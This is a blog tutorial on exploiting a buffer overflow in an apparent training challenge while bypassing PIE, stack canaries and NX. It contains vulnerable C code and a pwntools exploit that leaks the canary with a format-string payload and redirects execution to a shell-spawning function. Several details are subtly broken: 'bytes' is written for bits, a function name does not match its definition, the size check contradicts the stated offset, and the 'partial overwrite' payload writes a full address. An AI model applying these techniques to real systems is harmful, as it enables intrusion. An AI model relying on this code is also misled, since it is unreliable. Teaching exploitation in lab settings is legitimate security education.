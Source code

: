 +++
author = "Emily Miller"
title = "How to: Buffer overflows with PIE, Canaries, and NX Bit"
date = "2025-02-10"
description = """Here's a (more) realistic guide on how to exploit a modern buffer
overflow"""
tags = [  ]
+++

What stack protections are we talking about? Here we're only talking about
bypassing PIE, Stack Canaries, and NX Bit, because these are found in almost every binary
compiled nowadays and you will be expected to know this in any basic binary
exploitation exercise.

#### You speak all these words, woman, but I understand not.

**What's PIE?**

PIE stands for Position Independent Executable, and all it means is
that it can get loaded into different positions in memory randomly at runtime,
which makes exploitation a bit harder. How do we bypass this in terms of buffer
overflows?  Using *partial address overwrites*! Instead of overwriting the
entire buffer, we can only overwrite the last 2 bytes, and because of things get
loaded in, 12 of those bytes will be the same every time, so we only need to
brute force 2^4 or 16 combinations.

**What's a stack canary?**

Stack canaries are the bread and butter of modern buffer overflow protections.
The idea is that we can place some specific (usually 8 byte) value between the
function memory and the return address, and we check that this canary hasn't
changed before jumping to that return pointer. If it has, we'll exit the
program, and often give the error `**** stack smashing detected ****`. How do we
bypass this? Well, there's 2 main ways: we can either jump / avoid the canary, for instance if we
have something like `buffer[i] = ptr`, and we're able to control both `i` and
`ptr`, we can avoid the canary all together. Otherwise, if we can leak the
canary using a separate vulnerability we can overwrite it with the same address,
bypassing the protection.

**What's NX Bit?**

NX Bit is a protection to mark some areas of memory as executable, some as
writable, and some as read-only. This makes basic shellcode injections (for
instance with NOP sleds), much harder. This means that when we don't have a win
function, we're going to have to use pre-existing code to our advantage, using
something like ROP or a `one_gadget` to find a de-facto win function.

#### Worked example

Let's take our code from the previous challenge, except this time, we want to
attack it without using compiler flags to disable any protections. See the code
below:
```c
void win() {
    return system("/bin/sh");
}
int main(int argc, char **argv, char **envp) {
    char buffer[64];  // Vulnerable buffer size
    int size;

    printf("Enter the size of your input: ");
    scanf("%d", &size);  // User inputs the size for fgets

    if (size > 0 && size < sizeof(buffer)) {
        printf("Enter your input: ");
        fgets(buffer, size, stdin);
	    print_quotes(buffer);
    }
	return 0;
}
void print_quoted(char *s) {
	printf(quote(s));
	return;
}
char* quote(char *s) {
	char output[16];
	sprintf(output, "\"%s\"", s);
	return output;
}
```

Going piece by piece, what changes do we need to make to the exploit? Well,
first, we're going to need to change our code to only perform a partial
overwrite on the return address to bypass PIE. We're also going to need to find
a way to leak the stack canary... luckily, we're given a win function, so NX bit
is fairly trivial to bypass.

How do we leak the canary? Well, this is where that whole second vulnerability
thing comes in. In this case, in the `print_quoted` function, there's a format
string vulnerability, which will allow us to leak the canary by inserting
carefully constructed format string (notice how we're using the `printf` directly
on the user input, meaning that whatever we type in will be treated as a format
string). In this case, we'll only need a simple payload to leak the address, but
in the future, you'll learn that you can actually often gain complete program
control with a vulnerability like this.

```python
from pwn import *

process_name = "/challenge/babymem_level7.0"
offset = 123 # Given by the program
win_address = 0x1234 # You get this from GDB directly, notice the address is
# shorter because only the last 2 bytes will stay the same
format_string_offset = 12

p = process(process_name)

# This is a basic format string exploit to leak the canary and extract it into a
# byte string, you don't need to worry about this for now
payload_fmt = b"%" + bytes(str(format_string_offset), "utf-8") + b"$p"
p.recv()
p.sendline(payload_fmt)
canary_value = bytes.fromhex(p.recv(11)[3:])

# Back to the buffer overflow part
payload = b"A"*(offset-16) + canary_value + b"B"*8 + p64(win_address) # <-- standard buffer overflow payload

p.sendline(bytes(str(offset+2), "utf-8")) # <-- IMPORTANT: Make sure you only
# overwrite 2 bytes of the address, because the payload, if done in full, will
# fill the rest of the address with zeros and break it. You can do some
# modifications of the payload if you have to, but this is easier for challenges like this

p.sendline(payload)

p.interactive()
```

So that's how you exploit a buffer overflow with protections!
